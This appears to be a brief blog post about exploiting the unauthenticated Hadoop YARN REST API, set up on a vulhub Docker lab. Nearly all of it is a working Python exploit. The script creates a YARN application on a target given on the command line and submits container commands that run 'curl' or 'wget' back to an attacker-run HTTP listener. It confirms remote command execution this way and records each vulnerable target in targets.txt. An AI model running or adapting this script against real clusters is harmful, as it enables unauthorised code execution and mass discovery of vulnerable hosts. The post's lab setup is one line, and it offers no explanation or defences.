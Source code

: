 ```yaml
---
title:  "Hardoop Yarn"
layout: post
---
```


Today, we will find another software to exploit, which is Hardoop Yarn.

# Docker build
Download `docker-compose.yml` file from [vulnhub](https://github.com/vulhub/vulhub/blob/master/hadoop/unauthorized-yarn/docker-compose.yml).
Then we just run `docker-compose up -d`

# Exploit
Since we need to check if the remote server is vulnerable, we should try both `wget` and `curl` command.
In case it only has one command on it.
```python
#!/usr/bin/env python

import requests
import sys
import time
from http.server import SimpleHTTPRequestHandler, HTTPServer
import threading
import os

target = sys.argv[1]
PORT = 8000
lhost = '172.17.0.1' 

out = open("targets.txt", "a+")

def start_server():
    class MyHandler(SimpleHTTPRequestHandler):
        def do_GET(self):
            
            print(self.path)
            if self.path == '/':
                out.write(target.strip("\n") + "\n")
                out.close()
                server.socket.close()
             
            return SimpleHTTPRequestHandler.do_GET(self)
    try:
        server = HTTPServer(('', PORT), MyHandler)
        print("start server")
        server.serve_forever()
    except KeyboardInterrupt:
        print("^C received")
        server.socket.close()


st = threading.Thread(target=start_server, args=())
st.setDaemon(True)
st.start()

url = target + '/ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + '/ws/v1/cluster/apps'
data1 = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': 'curl http://%s:8000' % lhost,
        },
    },
    'application-type': 'YARN',
}

data2 = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': 'wget http://%s:8000' % lhost,
        },
    },
    'application-type': 'YARN',
}

try:
    requests.post(url, json=data1, verify=False, timeout=10)
    requests.post(url, json=data2, verify=False, timeout=10)
    
except Exception as e:
    print(e)

time.sleep(20)
```
I will just show you the code!


